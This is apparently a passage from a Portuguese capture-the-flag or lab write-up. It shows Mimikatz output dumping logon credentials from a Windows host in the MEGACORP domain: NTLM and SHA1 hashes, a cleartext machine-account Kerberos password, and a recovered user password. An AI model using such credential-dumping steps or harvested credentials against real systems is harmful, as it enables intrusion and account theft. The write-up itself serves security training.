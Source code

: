 ```
Logon Server      : (null)
Logon Time        : 9/7/2021 5:14:07 PM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : SHIELD$
         * Domain   : MEGACORP
         * NTLM     : 9d4feee71a4f411bf92a86b523d64437
         * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
        tspkg :
        wdigest :
         * Username : SHIELD$
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :
         * Username : SHIELD$
         * Domain   : MEGACORP.LOCAL
         * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : SHIELD$
Domain            : MEGACORP
Logon Server      : (null)
Logon Time        : 9/7/2021 5:14:07 PM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : SHIELD$
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :
         * Username : shield$
         * Domain   : MEGACORP.LOCAL
         * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
        ssp :
        credman :

mimikatz # 
```
E entre os dados do dump, conseguimos as seguintes credenciais:

```
        kerberos :
         * Username : sandra
         * Domain   : MEGACORP.LOCAL
         * Password : Password1234!
```
